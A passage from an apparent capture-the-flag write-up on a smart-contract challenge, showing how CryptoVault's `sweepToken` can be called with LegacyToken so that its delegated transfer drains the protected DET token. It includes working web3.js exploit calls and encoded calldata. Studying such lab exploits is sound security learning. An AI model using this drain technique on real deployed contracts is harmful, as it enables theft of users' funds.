 We got the address of DET token, the one we are supposed to protect! so we want to prevent transfer of DET token; but, can we really?

## Sweeping the Underlying Token

If we look at the transfer function of `LegacyToken` contract:

```solidity
function transfer(address to, uint256 value) public override returns (bool) {
  if (address(delegate) == address(0)) {
    return super.transfer(to, value);
  } else {
    return delegate.delegateTransfer(to, value, msg.sender);
  }
}
```

it is actually calling the `delegateTransfer` of some `delegate`. I wonder what is that `delegate`? We can get the address similar to before, but using `call` instead of `getStorageAt`:

```js
// find the LegacyToken address from DoubleEntryPoint
const legacyTokenAddress = await contract.delegatedFrom();
// call the getter of "DelegateERC20 public delegate;"
await web3.eth.call({
  from: player,
  to: legacyTokenAddress,
  data: '0xc89e4361', // delegate()
});
// 0x00000000000000000000000025047168b9c737a03a111ec039438403e73b7507
```

Oh boy, they are the same... This is bad for the underlying token because if someone were to call `sweepToken` with `LegacyToken` as the address, it will cause DET to be swept! Let us do so:

```js
// get the addresses from DoubleEntryPoint
const cryptoVaultAddress = await contract.cryptoVault();
const legacyTokenAddress = await contract.delegatedFrom();

// check initial balance
await contract.balanceOf(cryptoVaultAddress).then(b => b.toString());

// call sweepToken of CryptoVault with LegacyToken as the parameter
const _function = {
  inputs: [
    {
      name: 'token',
      type: 'address',
    },
  ],
  name: 'sweepToken',
  type: 'function',
};
const _parameters = [legacyTokenAddress];
const _calldata = web3.eth.abi.encodeFunctionCall(_function, _parameters);
await web3.eth.sendTransaction({
  from: player,
  to: cryptoVaultAddress,
  data: _calldata,
});

// check balance again to see it be 0
await contract.balanceOf(cryptoVaultAddress).then(b => b.toString());
```
